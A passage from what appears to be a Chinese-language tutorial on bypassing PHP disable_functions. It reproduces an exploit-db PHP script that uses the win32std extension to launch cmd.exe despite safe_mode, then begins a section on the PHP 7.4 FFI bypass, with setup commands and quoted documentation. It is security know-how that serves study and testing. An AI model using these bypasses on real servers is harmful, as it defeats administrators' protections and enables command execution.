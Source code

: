 使用上面的 PHP 代码通过 COM 对象的 exec() 方法即可绕过 disable_functions 执行命令

[![](https://p1.ssl.qhimg.com/t019c52b53626a0bd92.png)](https://p1.ssl.qhimg.com/t019c52b53626a0bd92.png)

### <a class="reference-link" name="7.%20PHP%205.2.3%20win32std%20extension%20safe_mode%20and%20bypass%20disable_functions"></a>7. PHP 5.2.3 win32std extension safe_mode and bypass disable_functions

这个貌似比较古老了 [https://www.exploit-db.com/exploits/4218](https://www.exploit-db.com/exploits/4218)

exploit-db 上的 exp

```
&lt;?php
//PHP 5.2.3 win32std extension safe_mode and disable_functions protections bypass

//author: shinnai
//mail: shinnai[at]autistici[dot]org
//site: http://shinnai.altervista.org

//Tested on xp Pro sp2 full patched, worked both from the cli and on apache

//Thanks to rgod for all his precious advises :)

//I set php.ini in this way:
//safe_mode = On
//disable_functions = system
//if you launch the exploit from the cli, cmd.exe will be wxecuted
//if you browse it through apache, you'll see a new cmd.exe process activated in taskmanager

if (!extension_loaded("win32std")) die("win32std extension required!");
system("cmd.exe"); //just to be sure that protections work well
win_shell_execute("..\..\..\..\windows\system32\cmd.exe");
?&gt;
```

### <a class="reference-link" name="8.%20FFI%20%E7%BB%95%E8%BF%87%20disable_functions"></a>8. FFI 绕过 disable_functions

PHP7.4 的一个新特性 FFI（Foreign Function Interface），即外部函数接口，可以让我们在 PHP 中调用 C 代码

建议在 Docker 中进行测试

```
apt-get install libffi-dev

docker-php-ext-install ffi
```

通常使用 FFI::cdef 创建一个新的 FFI 对象，下面是官方说明

`public static FFI::cdef ([ string $code = "" [, string $lib ]] ) : FFI`

> Parameters
code
A string containing a sequence of declarations in regular C language (types, structures, functions, variables, etc). Actually, this string may be &gt; copy-pasted from C header files.
Note:
C preprocessor directives are not supported, i.e. #include, #define and CPP macros do not work.
lib
The name of a shared library file, to be loaded and linked with the definitions.
Note:
If lib is omitted, platforms supporting RTLD_DEFAULT attempt to lookup symbols declared in code in the normal global scope. Other systems will fail to &gt; resolve these symbols.
